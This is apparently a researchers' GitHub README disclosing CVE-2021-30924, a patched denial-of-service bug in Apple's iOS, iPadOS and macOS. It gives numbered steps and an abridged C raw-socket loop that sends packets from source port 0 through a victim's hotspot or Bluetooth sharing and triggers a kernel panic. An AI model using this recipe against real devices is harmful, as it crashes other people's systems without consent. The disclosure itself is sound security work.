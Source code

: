 # CVE-2021-30924. PoC for iOS, macOS, iPadOS (DoS)

**Apple has quietly fixed this in iOS(and iPadOS) 15.1 and macOS 12.0 without any kind of public acknowledgement or reward.**

**Updated: Apple only mentioned us for macOS (CVE-2021-30924). They don't give any more comments. ([About the security content of macOS Monterey 12.0.1](https://support.apple.com/en-us/HT212869)).**
## Issue
Kernel panic after send 2+ TCP/UDP packets by attacker device via apple device hotspot net to external network

## Steps
### iPhone, iPad
1) Switch into hotspot mode
2) Attacker connect to iPhone network
3) Attacker send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
4) Kernel panic
### iMac, Mac, MacBook
0) Require internet access on device
1) On "Internet sharing" (on Bluetooth PAN) on victim apple device
2) Bluetooth pair attacker and victim apple device
3) Attacker connect to internet via apple device
4) Attacket send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
5) Kernel panic



## Here is a short proof of concept.
We used raw sockets to form a custom package and send requests from port 0.

```с
...
    tcph->source = htons (0); //here we specify the output port 0
...
    while (1)
    {
        tcph->dest = htons (rand()); //here we specify the input port random
        if (sendto (s, datagram, iph->tot_len ,    0, (struct sockaddr *) &sin, sizeof (sin)) < 0)
        {
            perror("sendto failed");
        }
        else
        {
            printf ("Packet Send. Length : %d \n" , iph->tot_len);
        }
        sleep(1);
    }
...
```
After sending 2 packets(print "Packet Send..."), DoS is called and elf execution can be terminated.

## Requirements
Linux-based systems. (tested on Ubuntu 21.04)

## Our links
Elaman Iskakov - @darling_x0r
Alexey Katkov - @watman27
